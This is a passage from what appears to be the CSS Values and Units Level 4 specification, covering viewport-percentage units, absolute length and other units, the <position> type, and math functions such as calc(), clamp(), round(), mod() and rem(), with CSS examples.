: The **large viewport-percentage units** (`lv*`) and **default viewport-percentage units** (`v*`) are defined with respect to the **large viewport size**: the viewport sized assuming any UA interfaces that are dynamically expanded and retracted to be retracted. This allows authors to size content such that it is guaranteed to fill the viewport, noting that such content might be hidden behind such interfaces when they are expanded.

  The sizes of the large viewport-percentage units are fixed (and therefore stable) unless the viewport itself is resized.

  > **Example:** For example, on phones, where screen real-estate is at a premium, browsers will often hide part or all of the title and address bar once the user starts scrolling the page. The large viewport-percentage units are sized relative to this larger everything-retracted space, so content using these units will fill the entire visible page when these UI elements are hidden. However, when these retractable elements are shown, they can obscure content that is sized or positioned using these units.

**small viewport**

: The **small viewport-percentage units** (`sv*`) are defined with respect to the **small viewport size**: the viewport sized assuming any UA interfaces that are dynamically expanded and retracted to be expanded. This allows authors to size content such that it can fit within the viewport even when such interfaces are present, noting that such content might not fill the viewport when such interfaces are retracted.

  The sizes of the small viewport-percentage units are fixed (and therefore stable) unless the viewport itself is resized.

  > **Example:** An element that is sized as `height: 100svh`, for example, will fill the screen perfectly, without any of its content being obscured, when all the dynamic UI elements of the UA are shown.
  >
  > Once those UI elements start being hidden, however, there will be extra space around the element. The small viewport-percentage units units are thus “safer” in general, but might not produce the most attractive layout once the user starts interacting with the page.

**dynamic viewport**

: The **dynamic viewport-percentage units** (`dv*`) are defined with respect to the **dynamic viewport size**: the viewport sized with dynamic consideration of any UA interfaces that are dynamically expanded and retracted. This allows authors to size content such that it can exactly fit within the viewport whether or not such interfaces are present.

  The sizes of the dynamic viewport-percentage units *are not stable* even while the viewport itself is unchanged. Using these units can cause content to resize e.g. while the user scrolls the page. Depending on usage, this can be disturbing to the user and/or costly in terms of performance.

  The UA is not required to animate the dynamic viewport-percentage units while expanding and retracting any relevant interfaces, and may instead calculate the units as if the relevant interface was fully expanded or retracted during the UI animation. (It is recommended that UAs assume the fully-retracted size for this duration.)

Whether the expansion/retraction of a particular interface (A) changes the sizes of all of the viewport-percentage lengths (and the initial containing block) simultaneously or (B) contributes to the differences between the large viewport size and small viewport size is largely UA-dependent. However:

- Changes in interface that happen as a result of scrolling or other frequent page interactions that would disturb the user if they resulted in substantial layout changes must be categorized as the latter (B).
- Changes in interface that have a sufficiently steady state that re-laying out the document into the adjusted space would be beneficial to the user must be categorized as the former (A).
- Additionally, UAs may have some dynamically-shown interfaces that intentionally overlay content and do not cause any shifts in layout—​and therefore have no effect on any of the viewport-percentage lengths. (Typically on-screen keyboards will fit into this category.)

In all cases, if the value of `overflow` or `scrollbar-gutter` on the root element in either axis would cause scrollbars to appear (or space to be reserved for them) unconditionally (for example, `overflow: scroll`, but not `overflow: auto`), the computed values of the viewport-percentage lengths in that axis are reduced in accordance with the initial containing block. Otherwise, and always in the case of media queries, the viewport-percentage lengths are sized assuming that scrollbars do not exist (even if this diverges from the initial containing block).

> **Note:** The value of `overflow` on the body element can sometimes affect the presence of scrollbars on the root element. This *does not* affect the size of viewport units, however.

###### 6.1.2.2.  The Various Viewport-relative Units {#css-values-4:viewport-relative-units}

The viewport-percentage length units are:

****vw** **svw** **lvw** **dvw****

: Equal to 1% of the width of the large viewport size, small viewport size, large viewport size, and dynamic viewport size, respectively.

  > **Example:** In the example below, if the width of the viewport is 200mm, the font size of `h1` elements will be 16mm (i.e. (8×200mm)/100).
  >
  > ```
  > h1 { font-size: 8vw }
  > ```

****vh** **svh** **lvh** **dvh****

: Equal to 1% of the height of the large viewport size, small viewport size, large viewport size, and dynamic viewport size, respectively.

****vi** **svi** **lvi** **dvi****

: Equal to 1% of the size of the large viewport size, small viewport size, large viewport size, and dynamic viewport size (respectively) in the box’s inline axis.

****vb** **svb** **lvb** **dvb****

: Equal to 1% of the size of the initial containing block large viewport size, small viewport size, large viewport size, and dynamic viewport size (respectively) in the box’s block axis.

****vmin** **svmin** **lvmin** **dvmin****

: Equal to the smaller of `*vw` or `*vh`.

****vmax** **svmax** **lvmax** **dvmax****

: Equal to the larger of `*vw` or `*vh`.

> **Note:** The original (unprefixed) viewport units [were defined](#css-values-4:viewport-relative-lengths) relative to the initial containing block, which in continuous media always matched the (singular) viewport size. The dynamism of browser chrome shifting in and out during scrolling was invented later, and following Safari’s lead, most UAs mapped these units to the larger size. Defining it this way is prettier in many cases, but can also block critical content (such as toolbars, headers, and footers) in others. It’s therefore not entirely clear whether this was the best mapping, and thus earlier editions of this specifications allowed UAs to choose the mapping of these default units. However at this point the mapping to the large viewport-percentage units is presumed to be required for Web compatibility.

In situations where there is no element or it hasn’t yet been styled (such as when evaluating media queries), the `*vi` and `*vb` units use the initial value of the `writing-mode` property to determine which axis they correspond to.

#### 6.2.  Absolute Lengths: the `cm`, `mm`, `Q`, `in`, `pt`, `pc`, `px` units {#css-values-4:absolute-lengths}

The **absolute length units** are fixed in relation to each other and anchored to some physical measurement. They are mainly useful when the output environment is known. The absolute units consist of the **physical units** (`in`, `cm`, `mm`, `pt`, `pc`, `Q`) and the **visual angle unit (pixel unit)** (`px`):

| unit | name | equivalence |
| --- | --- | --- |
| **cm** | centimeters | 1cm = 96px/2.54 |
| **mm** | millimeters | 1mm = 1/10th of 1cm |
| **Q** | quarter-millimeters | 1Q = 1/40th of 1cm |
| **in** | inches | 1in = 2.54cm = 96px |
| **pc** | picas | 1pc = 1/6th of 1in |
| **pt** | points | 1pt = 1/72nd of 1in |
| **px** | pixels | 1px = 1/96th of 1in |

> **Example:** ```
> h1 { margin: 0.5in }      /* inches  */
> h2 { line-height: 3cm }   /* centimeters */
> h3 { word-spacing: 4mm }  /* millimeters */
> h3 { letter-spacing: 1Q } /* quarter-millimeters */
> h4 { font-size: 12pt }    /* points */
> h4 { font-size: 1pc }     /* picas */
> p  { font-size: 12px }    /* px */
> ```

> **Note:** Lengths in publishing contexts are sometimes written like `2p3`, indicating a length of 2 picas and 3 points. These can be written in CSS as `calc(2pc + 3pt)` (see [§ 10.1 Basic Arithmetic: calc()](#css-values-4:calc-func)).

All of the absolute length units are compatible, and `px` is their canonical unit.

For a CSS device, these dimensions are **anchored** either

1. by relating the physical units to their physical measurements, or
2. by relating the pixel unit to the reference pixel.

For print media at typical viewing distances, the anchor unit should be one of the physical units (inches, centimeters, etc). For screen media (including high-resolution devices), low-resolution devices, and devices with unusual viewing distances, it is recommended instead that the anchor unit be the pixel unit. For such devices it is recommended that the pixel unit refer to the whole number of device pixels that best approximates the reference pixel.

> **Note:** If the anchor unit is the pixel unit, the physical units might not match their physical measurements. Alternatively if the anchor unit is a physical unit, the pixel unit might not map to a whole number of device pixels.

> **Note:** This definition of the pixel unit and the physical units differs from the earlier editions of CSS1 and CSS2. In particular, in previous versions of CSS the pixel unit and the physical units were not related by a fixed ratio: the physical units were always tied to their physical measurements while the pixel unit would vary to most closely match the reference pixel. (This unfortunate change was made because too much existing content relies on the assumption of 96dpi, and breaking that assumption broke the content.)

> **Note:** Units are ASCII case-insensitive and serialize as lowercase, for example 1Q serializes as 1q.

The **reference pixel** is the visual angle of one pixel on a device with a device pixel density of 96dpi and a distance from the reader of an arm’s length. For a nominal arm’s length of 28 inches, the visual angle is therefore about 0.0213 degrees. For reading at arm’s length, 1px thus corresponds to about 0.26 mm (1/96 inch).

The image below illustrates the effect of viewing distance on the size of a reference pixel: a reading distance of 71 cm (28 inches) results in a reference pixel of 0.26 mm, while a reading distance of 3.5 m (12 feet) results in a reference pixel of 1.3 mm.


Showing that pixels must become larger if the viewing distance increases

This second image illustrates the effect of a device’s resolution on the pixel unit: an area of 1px by 1px is covered by a single dot in a low-resolution device (e.g. a typical computer display), while the same area is covered by 16 dots in a higher resolution device (such as a printer).


Showing that more device pixels (dots) are needed to cover a 1px by 1px area on a high-resolution device than on a lower-resolution one (of the same approximate viewing distance)

A **device pixel** is the smallest unit of area on the device output capable of displaying its full range of colors. For typical color screens, it’s a square or somewhat rectangular region containing a red, green, and blue subpixel. Many non-traditional outputs exist that can blur this definition, such as by displaying some colors at higher resolutions. Such devices still expose some equivalent notion of "device pixel", however.

### 7.  Other Quantities {#css-values-4:other-units}

#### 7.1.  Angle Units: the `<angle>` type and `deg`, `grad`, `rad`, `turn` units {#css-values-4:angles}

Angle values are `<dimension>`s denoted by **<angle>**. The angle unit identifiers are:

****deg****

: Degrees. There are 360 degrees in a full circle.

****grad****

: Gradians, also known as "gons" or "grades". There are 400 gradians in a full circle.

****rad****

: Radians. There are 2π radians in a full circle.

****turn****

: Turns. There is 1 turn in a full circle.

For example, a right angle is `90deg` or `100grad` or `0.25turn` or approximately `1.57rad`.

All `<angle>` units are compatible, and `deg` is their canonical unit.

> **Note:** By convention, when an angle denotes a direction in CSS, it is typically interpreted as a **bearing angle**, where 0deg is "up" or "north" on the screen, and larger angles are more clockwise (so 90deg is "right" or "east").
>
> For example, in the `linear-gradient()` function, the `<angle>` that determines the direction of the gradient is interpreted as a bearing angle.

> **Note:** For legacy reasons, some uses of `<angle>` allow a bare `0` to mean `0deg`. This is not true in general, however, and will not occur in future uses of the <angle> type.

#### 7.2.  Duration Units: the `<time>` type and `s`, `ms` units {#css-values-4:time}

Time values are dimensions denoted by **<time>**. The time unit identifiers are:

****s****

: Seconds.

****ms****

: Milliseconds. There are 1000 milliseconds in a second.

All `<time>` units are compatible, and `s` is their canonical unit.

Properties may restrict the time value to some range. If the value is outside the allowed range, the declaration is invalid and must be [ignored](#css2:ignore).

#### 7.3.  Frequency Units: the `<frequency>` type and `Hz`, `kHz` units {#css-values-4:frequency}

Frequency values are dimensions denoted by **<frequency>**. The frequency unit identifiers are:

****Hz****

: Hertz. It represents the number of occurrences per second.

****kHz****

: KiloHertz. A kiloHertz is 1000 Hertz.

For example, when representing sound pitches, 200Hz (or 200hz) is a bass sound, and 6kHz (or 6khz) is a treble sound.

All `<frequency>` units are compatible, and `hz` is their canonical unit.

> **Note:** Units are ASCII case-insensitive and serialize as lowercase, for example 1Hz serializes as 1hz.

#### 7.4.  Resolution Units: the `<resolution>` type and `dpi`, `dpcm`, `dppx` units {#css-values-4:resolution}

Resolution units are dimensions denoted by **<resolution>**. The resolution unit identifiers are:

****dpi****

: Dots per inch.

****dpcm****

: Dots per centimeter.

****dppx** **x****

: Dots per `px` unit.

The `<resolution>` unit represents the size of a single "dot" in a graphical representation by indicating how many of these dots fit in a CSS `in`, `cm`, or `px`. For uses, see e.g. the `resolution` media query in [MEDIAQ] or the `image-resolution` property defined in [CSS3-IMAGES].

All `<resolution>` units are compatible, and `dppx` is their canonical unit.

The allowed range of `<resolution>` values *always* excludes negative values, in addition to any explicit ranges that might be specified.

> **Note:** that due to the 1:96 fixed ratio of CSS `in` to CSS `px`, `1dppx` is equivalent to `96dpi`. This corresponds to the default resolution of images displayed in CSS: see `image-resolution`.

> **Example:** The following @media rule uses Media Queries [MEDIAQ] to assign some special style rules to devices that use two or more device pixels per CSS `px` unit:
>
> ```
> @media (min-resolution: 2dppx) { ... }
> ```

### 8.  Data Types Defined Elsewhere {#css-values-4:defined-elsewhere}

Some data types are defined in their own modules. This example talks about some of the most common ones used across several specifications.

#### 8.1.  Colors: the `<color>` type {#css-values-4:colors}

The `<color>` data type is defined in [CSS-COLOR-4]. UAs must interpret <color> as defined therein.

##### 8.1.1.  Combination of `<color>` {#css-values-4:combine-colors}

Interpolation of `<color>` is defined in [CSS Color 4 §  13. Color Interpolation](#css-color-4:interpolation). Interpolation is done between premultiplied colors, as defined in [CSS Color 4 § 13.5 Interpolating with Alpha](#css-color-4:interpolation-alpha).

The `<color>` type is not additive.

> **Note:** the CSS WG is interested to [hear](https://github.com/w3c/csswg-drafts/issues/new) use-cases for addition of `<color>`, and may consider making <color> additive in the future.

#### 8.2.  Images: the `<image>` type {#css-values-4:images}

The `<image>` data type is defined in [CSS3-IMAGES]. UAs that support CSS Images Level 3 or its successor must interpret <image> as defined therein. UAs that do not yet support CSS Images Level 3 must interpret <image> as `<url>`.

##### 8.2.1.  Combination of `<image>` {#css-values-4:combine-images}

> **Note:** Interpolation of `<image>` is defined in [CSS Images 3 § 6 Interpolation](#css-images-3:interpolation).

Images are not additive.

#### 8.3.  2D Positioning: the `<position>` type {#css-values-4:position}

The **`<position>`** value specifies the position of a object area (e.g. background image) inside a positioning area (e.g. background positioning area). It is computed and interpreted as specified for `background-position`. [CSS3-BACKGROUND]

```css
<position> = [
  [ left | center | right | top | bottom | <length-percentage> ]
|
  [ left | center | right ] && [ top | center | bottom ]
|
  [ left | center | right | <length-percentage> ]
  [ top | center | bottom | <length-percentage> ]
|
  [ [ left | right ] <length-percentage> ] &&
  [ [ top | bottom ] <length-percentage> ]
]
```

> **Note:** The `background-position` property also accepts a three-value syntax. This has been disallowed generically because it creates parsing ambiguities when combined with other length or percentage components in a property value.

##### 8.3.1.  Parsing `<position>` {#css-values-4:position-parsing}

When specified in a grammar alongside other keywords, `<length>`s, or `<percentage>`s, `<position>` is *greedily* parsed; it consumes as many components as possible.

> **Example:** For example, `transform-origin` defines a 3D position as (effectively) `<position> <length>?`. A value such as `left 50px` will be parsed as a 2-value `<position>`, with an omitted z-component; on the other hand, a value such as `top 50px` will be parsed as a single-value <position> followed by a `<length>`.

##### 8.3.2.  Serializing `<position>` {#css-values-4:position-serialization}

When serializing the specified value of a `<position>`:

**If only one component is specified:**

: - The implied `center` keyword is added, and a 2-component value is serialized.

**If two components are specified:**

: - Keywords are serialized as keywords.
  - `<length-percentage>`s are serialized as <length-percentage>s.
  - Components are serialized horizontal first, then vertical.

**If four components are specified:**

: - Keywords and offsets are both serialized.
  - Components are serialized horizontal first, then vertical.

> **Note:** `<position>` values are never serialized as a single value, even when a single value would produce the same behavior, to avoid causing parsing ambiguities in some grammars where a <position> is placed next to a `<length>`, such as `transform-origin`.

> **Note:** Computed values are always serialized as two offsets (without keywords) because the computed value does not preserve syntactic distinctions.

##### 8.3.3.  Combination of `<position>` {#css-values-4:combine-positions}

Interpolation of `<position>` is defined as the independent interpolation of each component (x, y) normalized as an offset from the top left corner as a `<length-percentage>`.

Addition of `<position>` is likewise defined as the independent addition each component (x, y) normalized as an offset from the top left corner as a `<length-percentage>`.

### 9.  Functional Notations {#css-values-4:functional-notations}

A **functional notation** is a type of component value that can represent more complex types or invoke special processing. The syntax starts with the name of the function immediately followed by a left parenthesis (i.e. a `<function-token>`) followed by the argument(s) to the notation followed by a right parenthesis. Like keywords, function names are ASCII case-insensitive. [White space](#css-syntax-3:whitespace) is allowed, but optional, immediately inside the parentheses. Functions can take multiple arguments, which are formatted similarly to a CSS property value. See [§ 2.6 Functional Notation Definitions](#css-values-4:component-functions).

> **Note:** Some legacy functional notations, such as `rgba()`, use commas unnecessarily, but generally commas are only used to separate items in a list, or pieces of a grammar that would be ambiguous otherwise. If a comma is used to separate arguments, [white space](#css-syntax-3:whitespace) is optional before and after the comma.

> **Example:** ```
> background: url(http://www.example.org/image);
> color: rgb(100, 200, 50 );
> content: counter(list-item) ". ";
> width: calc(50% - 2em);
> ```

The math functions are defined below. Other functional notations are defined in their own modules; for example the `<color>` functions are defined in [CSS-COLOR-4] and [CSS-COLOR-5].

#### 9.1.  Numeric Functions {#css-values-4:functional-numeric}

Any functional notation that resolves solely to a numeric data type is a **numeric function**.

As the value of a numeric function can’t, generally, be known at parse time when range restrictions are enforced, numeric functions returning out-of-range values never cause a declaration to become invalid. Instead, the value of a numeric function is clamped to the range allowed in the context it is used at computed value time if possible, and at used value time otherwise.

Similarly, if a numeric function returns a non-integer value, but is used in a position that expects an `<integer>`, the computed value and used value are rounded to the nearest integer.

> **Note:** All math functions are numeric functions, but functions like `sibling-index()` are also numeric functions without being math functions.

> **Example:** Since widths smaller than 0px are not allowed, these three declarations are equivalent:
>
> ```
> width: calc(5px - 10px);
> width: calc(-5px);
> width: 0px;
> ```
>
> Note however that `width: -5px` is not equivalent to `width: calc(-5px)`! Out-of-range values specified *literally* are invalid at parse-time, and cause the entire declaration to be dropped.

> **Note:** While CSS intentionally leaves numeric precision/range UA-defined, extremely large values (including, notably, ±∞) will clamp to the minimum/maximum value allowed. Even properties that can explicitly represent infinity as a keyword value, such as `animation-iteration-count`, will end up clamping ±∞, as math functions can’t resolve to keyword values; the *numeric* part of the property’s syntax still has an implicit minimum/maximum value.

#### 9.2.  Serialization of Functional Notations {#css-values-4:functional-serialization}

Unless otherwise specified, to **serialize a functional notation**:

1. Let *s* be a string containing the function’s name in lowercase, followed by “(” (U+0028 LEFT PARENTHESIS).
2. Append to *s* the serializations of the arguments of the functional notation per their individual grammars, in the order the grammars are written in, joining space-separated tokens with a single space, and following each serialized comma, colon, semi-colon, or slash with a single space (U+0020 SPACE). When serializing the computed value or its derivatives (not specified or declared values), omit components when possible without changing the meaning.
3. Append “)” (U+0029 RIGHT PARENTHESIS) to *s*.

> **Issue:** We are inconsistent in how we handled specified values. [[Issue #9720]](https://github.com/w3c/csswg-drafts/issues/9720)

> **Example:** For example, given a function like `LINEAR-GRADIENT( to bottom , red calc( 1em + 5% ) , green calc(130px / 2) , blue 100% )`:
>
> **as a specified value**
>
> : it will serialize as `linear-gradient(to bottom, red calc(5% + 1em), green calc(65px), blue 100%)`
>
>   - Function names and keywords become lowercase.
>   - Whitespace is normalized: one space between most tokens, but no space after left parentheses/brackets, before right parentheses/brackets, or before commas
>   - `calc()` arguments are simplified and sorted per [§ 10.13 Serialization](#css-values-4:calc-serialize)
>
> **as a computed value**
>
> : it will serialize as `linear-gradient(red calc(5% + 16px), green calc(65px), blue)`
>
>   - In addition to any specified value simplifications, any additional value computations are also applied, such as converting specified lengths to computed lengths.
>   - Values that match the default (e.g. `to bottom`, the `100%` stop position on the final stop) are omitted entirely.

### 10.  Mathematical Expressions {#css-values-4:math}

The **math functions** (`calc()`, `clamp()`, `sin()`, and others defined in this chapter) allow numeric CSS values to be written as mathematical expressions.

A math function represents a numeric value, one of:

- `<length>`,
- `<frequency>`,
- `<angle>`,
- `<time>`,
- `<flex>`,
- `<resolution>`,
- `<percentage>`,
- `<number>`,
- `<integer>`

...or the `<length-percentage>`/etc mixed types, and can be used wherever such a value would be valid.

> **Note:** Math functions differ from the more general numeric functions because they automatically inherit the calculation context where they’re used, letting you use all the values you could use "normally" in that position, with the same meaning they’d normally have.

#### 10.1.  Basic Arithmetic: `calc()` {#css-values-4:calc-func}

The **calc()** function is a math function that allows basic arithmetic to be performed on numerical values, using addition (`+`), subtraction (`-`), multiplication (`*`), division (`/`), and parentheses.

A `calc()` function contains a single **calculation**, which is a sequence of values interspersed with operators, and possibly grouped by parentheses (matching the `<calc-sum>` grammar), which represents the result of evaluating the expression using standard operator precedence rules (`*` and `/` bind tighter than `+` and `-`, and operators are otherwise evaluated left-to-right). The `calc()` function represents the result of its contained calculation.

Components of a calculation can be literal values (such as `5px`), other math functions, or other expressions, such as `var()`, that evaluate to a valid argument type (like `<length>`).

> **Example:** Math functions can be used to combine value that use different units. In this example the author wants the *margin box* of each section to take up 1/3 of the space, so they start with `100%/3`, then subtract the element’s borders and margins. (`box-sizing` can automatically achieve this effect for borders and padding, but a math function is needed if you want to include margins.)
>
> ```css
> section {
>   float: left;
>   margin: 1em; border: solid 1px;
>   width: calc(100% / 3 - 2 * 1em - 2 * 1px);
> }
> ```
>
> Similarly, in this example the gradient will show a color transition only in the first and last `20px` of the element:
>
> ```css
> .fade {
>   background-image: linear-gradient(silver 0%, white 20px,
>                                     white calc(100% - 20px), silver 100%);
> }
> ```

> **Example:** Math functions can also be useful just to express values in a more natural, readable fashion, rather than as an obscure decimal. For example, the following sets the `font-size` so that exactly 35em fits within the viewport, ensuring that roughly the same amount of text always fills the screen no matter the screen size.
>
> ```css
> :root {
>   font-size: calc(100vw / 35);
> }
> ```
>
> Functionality-wise, this is identical to just writing `font-size: 2.857vw`, but then the intent (that `35em` fills the viewport) is much less clear to someone reading the code; the later reader will have to reverse the math themselves to figure out that 2.857 is meant to approximate 100/35.

> **Example:** Standard mathematical precedence rules for the operators apply: `calc(2 + 3 * 4)` is equal to `14`, not `20`.
>
> Parentheses can be used to manipulate precedence: `calc((2 + 3) * 4)` is instead equal to `20`.
>
> Parentheses and nesting additional `calc()` functions are equivalent; the preceding expression could equivalently have been written as `calc(calc(2 + 3) * 4)`. This can be useful when building up values piecemeal via `var()`, such as in the following example:
>
> ```css
> .aspect-ratio-box {
>   --ar: calc(16 / 9);
>   --w: calc(100% / 3);
>   --h: calc(var(--w) / var(--ar));
>   width: var(--w);
>   height: var(--h);
> }
> ```
>
> Although `--ar` *could* have been written as simply `--ar: (16 / 9);`, `--w` is used both on its own (in `width`) and as a `calc()` component (in `--h`), so it has to be written as a full `calc()` function itself.

#### 10.2.  Comparison Functions: `min()`, `max()`, and `clamp()` {#css-values-4:comp-func}

The comparison functions of `min()`, `max()`, and `clamp()` compare multiple calculations and represent the value of one of them.

The **min()** or **max()** functions contain one or more comma-separated calculations, and represent the smallest (most negative) or largest (most positive) of them, respectively.

The **clamp()** function takes three calculations—​a minimum value, a central value, and a maximum value—​and represents its central calculation, clamped according to its min and max calculations, favoring the min calculation if it conflicts with the max. (That is, given `clamp(MIN, VAL, MAX)`, it represents exactly the same value as `max(MIN, min(VAL, MAX))`).

Either the min or max calculations (or even both) can instead be the keyword **none**, which indicates the value is *not* clamped from that side. (That is, `clamp(MIN, VAL, none)` is equivalent to `max(MIN, VAL)`, `clamp(none, VAL, MAX)` is equivalent to `min(VAL, MAX)`, and `clamp(none, VAL, none)` is equivalent to just `calc(VAL)`.)

For all three functions, the argument calculations can resolve to any `<number>`, `<dimension>`, or `<percentage>`, but must have a consistent type or else the function is invalid; the result’s type will be the consistent type.

> **Example:** `min()`, `max()`, and `clamp()` can be used to make sure a value doesn’t exceed a "safe" limit: For example, "responsive type" that sets `font-size` with viewport units might still want a minimum size to ensure readability:
>
> ```css
> .type {
>   /* Set font-size to 10x the average of vw and vh,
>      but don't let it go below 12px. */
>   font-size: max(10 * (1vw + 1vh) / 2, 12px);
> }
> ```
>
> > **Note:** Full math expressions are allowed in each of the arguments; there’s no need to nest a `calc()` inside! You can also provide more than two arguments, if you have multiple constraints to apply.

> **Example:** An occasional point of confusion when using `min()`/`max()` is that you use `max()` to impose a minimum value on something (that is, properties like `min-width` effectively use `max()`), and `min()` to impose a maximum value on something; it’s easy to accidentally reach for the opposite function and try to use `min()` to add a minimum size. Using `clamp()` can make the code read more naturally, as the value is nestled between its minimum and maximum:
>
> ```css
> .type {
>   /* Force the font-size to stay between 12px and 100px */
>   font-size: clamp(12px, 10 * (1vw + 1vh) / 2, 100px);
> }
> ```
>
> Or, if you only wanted to impose a minimum size, but allow the font-size to grow as large as it wants:
>
> ```css
> .type {
>   /* Force the font-size to be at least 12px */
>   font-size: clamp(12px, 10 * (1vw + 1vh) / 2, none);
> }
> ```

> **Note:** that `clamp()`, matching CSS conventions elsewhere, has its minimum value "win" over its maximum value if the two are in the "wrong order". That is, `clamp(100px, ..., 50px)` will resolve to `100px`, exceeding its stated "max" value.
>
> If alternate resolution mechanics are desired they can be achieved by combining `clamp()` with `min()` or `max()`:
>
> **To have MAX win over MIN:**
>
> : `clamp(min(MIN, MAX), VAL, MAX)`. If you want to avoid repeating the MAX calculation, you can just reverse the nesting of functions that `clamp()` is defined against—​`min(MAX, max(MIN, VAL))`.
>
> **To have MAX and MIN "swap" when they’re in the wrong order:**
>
> : `clamp(min(MIN, MAX), VAL, max(MIN, MAX))`. Unfortunately, there’s no easy way to do this without repeating the MIN and MAX terms.

#### 10.3.  Stepped Value Functions: `round()`, `mod()`, and `rem()` {#css-values-4:round-func}

The stepped-value functions, `round()`, `mod()`, and `rem()`, all transform a given value according to another "step value", in different ways.

The **round(`<rounding-strategy>`?, A, B?)** function contains an optional rounding strategy, and two calculations A and B, and returns the value of A, rounded according to the rounding strategy, to the nearest integer multiple of B either above or below A. The argument calculations can resolve to any `<number>`, `<dimension>`, or `<percentage>`, but must have a consistent type or else the function is invalid; the result’s type will be the consistent type.

If A is exactly equal to an integer multiple of B, `round()` resolves to A exactly (preserving whether A is 0⁻ or 0⁺, if relevant). Otherwise, there are two integer multiples of B that are potentially "closest" to A, *lower B* which is closer to −∞ and *upper B* which is closer to +∞. The following **`<rounding-strategy>`**s dictate how to choose between them:

****nearest****

: Choose whichever of *lower B* and *upper B* that has the smallest absolute difference from A. If both have an equal difference (A is exactly between the two values), choose *upper B*.

****up****

: Choose *upper B*.

****down****

: Choose *lower B*.

****to-zero****

: Choose whichever of *lower B* and *upper B* that has the smallest absolute difference from 0.

****line-width****

: If B is omitted, A is snapped as a line width.

  Otherwise round as for `nearest`, except that if one of *lower B* or *upper B* is zero, the non-zero one is chosen, and the final result is snapped as a line width.

If *lower B* would be zero, it is specifically equal to 0⁺; if *upper B* would be zero, it is specifically equal to 0⁻.

If `<rounding-strategy>` is omitted, it defaults to `nearest`. (Aka rounding to the nearest integer.) If <rounding-strategy> is `line-width`, the type of A must match `<length>`.

If the type of A matches `<number>`, then B may be omitted, and defaults to `1`. If `<rounding-strategy>` is `line-width`, B may also be omitted and has special behavior (defined above) essentially defaulting it to one device pixel. In all other cases, omitting B is invalid.

**While `round(line-width, ...)` attempts to ensure that non-zero values never round to zero, passing a sufficiently small A value might cause it to be represented as 0 internally anyway. Use caution when writing very small values; `round(line-width, 0.1px)` is safer than `round(line-width, 0.0001px)`, and the difference between the two is almost certainly nil in practice.**

> **Issue:** CSSOM needs to specify how it rounds, and it’s probably good for CSS functions to round the same way by default. What behavior should be used? [[Issue #5689]](https://github.com/w3c/csswg-drafts/issues/5689)

> **Example:** Unlike languages like JavaScript which have a natural "precision" to round to (integers), CSS values have no such precision because values can be written in many different compatible units. As such, the precision has to be given explicitly; to round a width to the nearest `50px`, one can write `round(var(--width), 50px)`.

> **Note:** JavaScript and other programming languages sometimes separate out the rounding strategies into separate rounding functions. JS’s `Math.floor()` is equivalent to CSS’s `round(down, ...)`; JS’s `Math.ceil()` is equivalent to CSS’s `round(up, ...)`; JS’s `Math.trunc()` is equivalent to CSS’s `round(to-zero, ...)`; and JS’s `Math.round()` is equivalent to CSS’s `round(nearest, ...)`, or just `round(...)`.

> **Note:** The `<rounding-strategy>` keywords are the same as the keywords in `block-step-size` and have the same behavior. (`block-step-size` just lacks `to-zero`; since block sizes are always non-negative, `to-zero` and `down` would be identical.)

The modulus functions **mod(A, B)** and **rem(A, B)** similarly contain two calculations A and B, and return the difference between A and the nearest integer multiple of B either above or below A. The argument calculations can resolve to any `<number>`, `<dimension>`, or `<percentage>`, but must have the *same* type, or else the function is invalid; the result will have the same type as the arguments.

The two functions are very similar, and in fact return identical results if both arguments are positive or both are negative: the value of the function is equal to the value of A shifted by the integer multiple of B that brings the value **between zero and B**. (Specifically, the range includes zero and excludes B. More specifically, if B is positive the range starts at 0⁺, and if B is negative it starts at 0⁻.)

> **Example:** For example, `mod(18px, 5px)` resolves to the value `3px`, because subtracting `5px * 3` from `18px` yields `3px`, which is the only such value between `0px` and `5px`.
>
> Similarly, `mod(-140deg, -90deg)` resolves to the value `-50deg`, because adding `-90deg * 1` to `-140deg` yields `-50deg`, which is the only such value between `0deg` and `-90deg`.
>
> Evaluating either of these examples with `rem()` yields the exact same results.

Their behavior diverges if the A value and the B step are on opposite sides of zero: `mod()` (short for “modulus”) continues to choose the integer multiple of B that puts the value between zero and B, as above (guaranteeing that the result will either be zero or share the sign of B, not A), while `rem()` (short for "remainder") chooses the integer multiple of B that puts the value between zero and -B, avoiding changing the sign of the value.

> **Example:** For example, `mod(-18px, 5px)` resolves to the value `2px`: adding `5px * 4` to `-18px` yields `2px`, which is between `0px` and `5px`.
>
> On the other hand, `rem(-18px, 5px)` resolves to the value `-3px`: adding `5px * 3` to `-18px` yields `-3px`, which has the same sign as `-18px` but is between `0px` and `-5px`.
>
> Similarly, `mod(140deg, -90deg)` resolves to the value `-40deg` (adding `-90deg * 2` to `140deg`, bringing it to between `0deg` and `-90deg`), but `rem(140deg, -90deg)` resolves to the value `50deg`.

When should I choose `mod()` vs `rem()`?

Typically, users of this operation are in control of the step value (B), and are modifying an unknown value A. As a result, it’s *usually* more expected that the result is between 0 and B, regardless of A’s sign, meaning `mod()` should be chosen.

For example, if an author wants to know whether a length is an even or odd number of pixels, `mod(A, 2px)` will return either `0px` or `1px` (assuming the value is a whole number of pixels to begin with), regardless of the value of a. `rem(A, 2px)`, on the other hand, will return `0px` if A is an even number of pixels, but will return *either* `1px` or `-1px` if it’s odd, depending on whether A is positive or negative.

The opposite situation does sometimes occur, however, and so `rem()` is provided to cater to that. As well, `rem()` is the behavior of JavaScript’s `%` operator, so if an exact match between CSS and JS code is desired, `rem()` can be useful.

> **Note:** `mod()` and `rem()` can also be defined directly in terms of other functions: `mod(A, B)` is equivalent to `calc(A - sign(B)*round(down, A*sign(B), B))` (a hacky way to say "round(down) when B is positive, round(up) when B is negative), while `rem(A, B)` is equivalent to `calc(A - round(to-zero, A, B))`. (These expressions don’t always handle 0⁺ and 0⁻ correctly, though, because 0⁻ semantics aren’t commutative for addition.)

##### 10.3.1.  Argument Ranges {#css-values-4:round-infinities}

In `round(A, B)`, if B is 0, the result is NaN. If A and B are both infinite, the result is NaN.

If A is infinite but B is finite, the result is the same infinity.

If A is finite but B is infinite, the result depends on the `<rounding-strategy>` and the sign of A:

**`nearest` `to-zero`**

: If A is positive or 0⁺, return 0⁺. Otherwise, return 0⁻.

**`up`**

: If A is positive (not zero), return +∞. If A is 0⁺, return 0⁺. Otherwise, return 0⁻.

**`down`**

: If A is negative (not zero), return −∞. If A is 0⁻, return 0⁻. Otherwise, return 0⁺.

In `mod(A, B)` or `rem(A, B)`, if B is 0, the result is NaN. If A is infinite, the result is NaN.

In `mod(A, B)` only, if B is infinite and A has opposite sign to B (including an oppositely-signed zero), the result is NaN.

